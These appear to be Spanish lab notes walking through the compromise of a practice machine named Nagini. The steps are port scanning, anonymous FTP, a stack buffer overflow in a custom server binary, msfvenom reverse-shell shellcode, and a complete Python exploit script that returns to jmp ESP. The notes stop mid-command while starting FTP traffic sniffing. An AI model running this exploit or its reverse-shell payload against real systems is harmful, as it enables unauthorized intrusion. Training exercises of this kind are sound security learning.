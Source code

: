 [[192.168.100.7(Nagini)]]

Haremos un [[NMAP]]
`nmap -sT -Pn -p- --open -T5 -v -n 192.168.100.5`

```python
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
9898/tcp open  monkeycom
```

Vemos que el puerto del FTP esta activado así que vamos a probar a conectarnos, vemos que se puede acceder como usuarios `anonymous`

Vemos un binario llamado `server_hogwarts` así que con strace vamos a ver que es lo que hace y en que consiste: `strace ./server_hogwarts`, vemos que lo que realiza es montar un servidor por el puerto `9898`

Si ejecutamos el binario podremos acceder a el con netcat usando `nc localhost 9898` que es el puerto que estaba abierto durante el nmap.
El binario pide un input así que si no se ha definido bien un tamaño de buffer sin sanitizarlo se podría acontecer un bufferoverflow

Para poder realizar esto nos ejecutaremos el programa con la herramienta de gdb: `gdb ./server_hpgwarts -q` y para correr la herramienta usaremos la r una vez dentro de gdb.

Y en la otra terminal nos conectamos con netcat e introducimos todas las "A" posibles, y llenaremos el EIP de "A" o en hexadecimal 4141414141.

Si ejecutamos checsec nos mostrara si NX esta desactivado que nos permitirá hacer que un flujo de la pila se interprete cómo shellcode

En gdb haremos `cyclic 1024` para que nos cree un patrón de letras para identificar donde se llena el EIP
Una vez se llena el EIP copiamos el valor hexadecimal y ejecutamos `cyclic -o 0x62616164` y te dice en que bite esta el offset

Ahora para apuntar al EIP directamente usaremos el siguiente comando de python para llenar el EIP y verificar que se llena de "B" `python3 -c 'print("A"*112 + "B"*4 +"C"*100)'` y al llenarlo nuestro ESP apunta al comienzo de las letra "C" 

Ahora tenemos que hacer que EIP apunte directamente al ESP para que una vez salte a este se ejecute un shellcode

Necesitaremos realizar un shellcode que haremos con msfvenom:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.7 LPORT=5555 -b '\x00\x0a\x0d' -f py -v shellcode`

Usaremos objdump para encontrar el OpCode que hace el salto al ESP
Para saber a donde se corresponde el OpCode usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` e introducimos `jmp ESP` nos dice que el OpCode corresponde a `FFE4`

Ahora objdum ejecutamos:
`objdump -D server_hogwarts| grep "ff e4"`

Nos mostrara direcciones que realizan ese salto que buscábamos en este caso: ``
`8049d55` tiene que estar en little endian así que le damos la vuelta en el código

Vamos a realizar un `exploit.py` para realizar esto:
```python
#!/usr/bin/python3

import socket

offset = 112
before_eip = b"A"*offset

eip = b"\x55\x9d\x04\x08" # 8049d55 jump ESP

shellcode = b""
shellcode += b"\xdb\xd8\xd9\x74\x24\xf4\xb8\x74\xc6\xd0\xaa"
shellcode += b"\x5b\x29\xc9\xb1\x12\x31\x43\x17\x03\x43\x17"
shellcode += b"\x83\x9f\x3a\x32\x5f\x6e\x18\x44\x43\xc3\xdd"
shellcode += b"\xf8\xee\xe1\x68\x1f\x5e\x83\xa7\x60\x0c\x12"
shellcode += b"\x88\x5e\xfe\x24\xa1\xd9\xf9\x4c\xf2\xb2\x9e"
shellcode += b"\x89\x9a\xc0\x5e\x84\xe9\x4c\xbf\x16\x6b\x1f"
shellcode += b"\x11\x05\xc7\x9c\x18\x48\xea\x23\x48\xe2\x9b"
shellcode += b"\x0c\x1e\x9a\x0b\x7c\xcf\x38\xa5\x0b\xec\xee"
shellcode += b"\x66\x85\x12\xbe\x82\x58\x54"

after_eip = b"\x90"*32 + shellcode # ESP

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.100.5", 9898))
s.send(payload)
s.close()
```

En la maquina [[192.168.100.7(Nagini)]] con socat deberemos configurar el renvio de paquetes



Una vez tenemos la shell en el directorio de `/root` encontramos un archivo `notes.txt` que nos dice que han detectado una entrada de un usuario por ftp, asi que con tcpdump -i eth0 port ftp or ftp-dat